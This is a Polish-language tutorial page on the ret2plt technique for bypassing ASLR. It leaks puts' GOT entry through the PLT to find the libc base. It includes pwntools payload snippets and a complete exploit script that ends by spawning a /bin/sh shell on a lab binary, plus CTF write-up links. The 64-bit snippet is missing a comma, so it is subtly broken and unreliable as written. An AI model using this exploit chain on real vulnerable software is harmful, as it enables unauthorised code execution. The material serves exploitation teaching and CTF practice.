 # Ret2plt

## Podstawowe informacje

Celem tej techniki jest **wyciek adresu funkcji z PLT**, aby móc ominąć ASLR. Dzieje się tak dlatego, że jeśli na przykład wyciekniesz adres funkcji `puts` z biblioteki libc, możesz **obliczyć bazę `libc`** i obliczyć przesunięcia, aby uzyskać dostęp do innych funkcji, takich jak **`system`**.

Można to zrobić za pomocą ładunku `pwntools`, na przykład ([**stąd**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got)):
```python
# 32-bit ret2plt
payload = flat(
b'A' * padding,
elf.plt['puts'],
elf.symbols['main'],
elf.got['puts']
)

# 64-bit
payload = flat(
b'A' * padding,
POP_RDI,
elf.got['puts']
elf.plt['puts'],
elf.symbols['main']
)
```
Zauważ, jak **`puts`** (korzystając z adresu z PLT) jest wywoływany z adresem `puts` znajdującym się w GOT (Global Offset Table). Dzieje się tak dlatego, że w momencie, gdy `puts` drukuje wpis GOT puts, ten **wpis będzie zawierał dokładny adres `puts` w pamięci**.

Zauważ również, jak adres `main` jest używany w eksploacie, więc gdy `puts` zakończy swoje wykonanie, **binarny ponownie wywołuje `main` zamiast zakończyć działanie** (dzięki czemu wyciekły adres będzie nadal ważny).

{% hint style="danger" %}
Zauważ, że aby to działało, **binarny nie może być skompilowany z PIE** lub musisz **znaleźć wyciek, aby ominąć PIE** i poznać adresy PLT, GOT i main. W przeciwnym razie najpierw musisz ominąć PIE.
{% endhint %}

Możesz znaleźć [**pełny przykład tego bypassu tutaj**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass). To był ostateczny exploit z tego **przykładu**:
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
'A' * 32,
elf.plt['puts'],
elf.sym['main'],
elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
libc.sym['exit'],
next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```
## Inne przykłady i odnośniki

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 bity, włączone ASLR, ale brak PIE, pierwszym krokiem jest przepełnienie aż do bajtu 0x00 canary, a następnie wywołanie puts w celu wycieku. Z canary tworzony jest ROP gadżet do wywołania puts w celu wycieku adresu puts z GOT, a następnie ROP gadżet do wywołania `system('/bin/sh')`.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 bity, włączone ASLR, brak canary, przepełnienie stosu w funkcji głównej z funkcji potomnej. ROP gadżet do wywołania puts w celu wycieku adresu puts z GOT, a następnie wywołanie one gadget.
